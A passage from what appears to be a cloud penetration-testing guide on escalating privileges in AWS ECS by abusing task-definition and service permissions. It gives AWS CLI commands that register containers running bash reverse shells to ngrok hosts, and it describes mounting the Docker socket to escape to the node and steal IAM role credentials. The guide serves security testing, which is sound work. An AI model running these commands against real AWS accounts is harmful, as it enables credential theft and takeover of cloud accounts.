 **Potential Impact:** Direct privesc to any ECS role.

### `iam:PassRole`, `ecs:RegisterTaskDefinition`, (`ecs:UpdateService|ecs:CreateService)`

Just like in the previous example an attacker abusing the **`iam:PassRole`, `ecs:RegisterTaskDefinition`, `ecs:UpdateService`** or **`ecs:CreateService`** permissions in ECS can **generate a new task definition** with a **malicious container** that steals the metadata credentials and **run it by creating a new service with at least 1 task running.**

```bash
# Generate task definition with rev shell
aws ecs register-task-definition --family iam_exfiltration \
    --task-role-arn  "$ECS_ROLE_ARN" \
    --network-mode "awsvpc" \
    --cpu 256 --memory 512\
    --requires-compatibilities "[\"FARGATE\"]" \
    --container-definitions "[{\"name\":\"exfil_creds\",\"image\":\"python:latest\",\"entryPoint\":[\"sh\", \"-c\"],\"command\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/8.tcp.ngrok.io/12378 0>&1\\\"\"]}]"

# Run the task creating a service
aws ecs create-service --service-name exfiltration \
    --task-definition iam_exfiltration \
    --desired-count 1 \
    --cluster "$CLUSTER_ARN" \
    --launch-type FARGATE \
    --network-configuration "{\"awsvpcConfiguration\":{\"assignPublicIp\": \"ENABLED\", \"subnets\":[\"$SUBNET\"]}}"

# Run the task updating a service
aws ecs update-service --cluster <CLUSTER NAME> \
    --service <SERVICE NAME> \
    --task-definition <NEW TASK DEFINITION NAME>

```

**Potential Impact:** Direct privesc to any ECS role.

### `ecs:RegisterTaskDefinition`, **`(ecs:RunTask|ecs:StartTask|ecs:UpdateService|ecs:CreateService)`**

This scenario is like the previous ones but **without** the **`iam:PassRole`** permission.\
This is still interesting because if you can run an arbitrary container, even if it's without a role, you could **run a privileged container to escape** to the node and **steal the EC2 IAM role** and the **other ECS containers roles** running in the node.\
You could even **force other tasks to run inside the EC2 instance** you compromise to steal their credentials (as discussed in the [**Privesc to node section**](aws-ecs-privesc.md#privesc-to-node)).

{% hint style="warning" %}
This attack is only possible if the **ECS cluster is using EC2** instances and not Fargate.
{% endhint %}

```bash
printf '[
    {
        "name":"exfil_creds",
        "image":"python:latest",
        "entryPoint":["sh", "-c"],
        "command":["/bin/bash -c \\\"bash -i >& /dev/tcp/7.tcp.eu.ngrok.io/12976 0>&1\\\""],
        "mountPoints": [
            {
                "readOnly": false,
                "containerPath": "/var/run/docker.sock",
                "sourceVolume": "docker-socket"
            }
```